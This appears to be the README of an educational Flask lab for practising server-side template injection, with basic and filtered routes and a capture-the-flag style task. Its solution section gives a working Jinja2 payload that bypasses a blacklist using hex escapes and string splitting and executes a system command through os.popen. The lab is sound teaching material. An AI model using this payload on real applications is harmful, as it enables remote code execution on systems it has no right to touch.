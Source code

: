 
This will start a local server, and you can access the application by navigating to `http://127.0.0.1:5000` in your web browser.
## Exploring the Application

The application provides two routes for exploring SSTI:

- **Basic SSTI (`/`)**: A simple form where you can input your name to test basic SSTI exploitation.
- **Advanced SSTI (`/hard`)**: A more challenging form with a blacklist filter to prevent common SSTI payloads.

## Learning Objectives

- Understand how SSTI vulnerabilities occur in web applications.
- Learn how to construct payloads to exploit SSTI in a safe environment.
- Explore techniques to bypass input filters and security mechanisms.
- Learn to abuse various dangerous functions of python to chain RCE

## Task
- gain rce
- get the flag.txt via RCE

## Solution of hard
#### Payload to bypass filters

```m
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('id')|attr('read')()}}
```
#### Automated Solution

<img width="1635" alt="image" src="https://github.com/user-attachments/assets/9b33eb97-8714-4552-aef4-248aed1c6573">

<details><summary>solution.py</summary></details>

## Security Disclaimer

This application is intended for educational purposes only. Do not use these techniques on systems without explicit permission. Always practice ethical hacking and responsible disclosure.

## Contributing

Feel free to submit issues or pull requests for enhancements or bug fixes. Contributions are welcome!

## Blog 

- [https://dr34mhacks.github.io/posts/how-to-exploit-ssti/](https://dr34mhacks.github.io/posts/how-to-exploit-ssti/)

## License

This project is licensed under the MIT License

Happy Hunting! 🛡️🔍
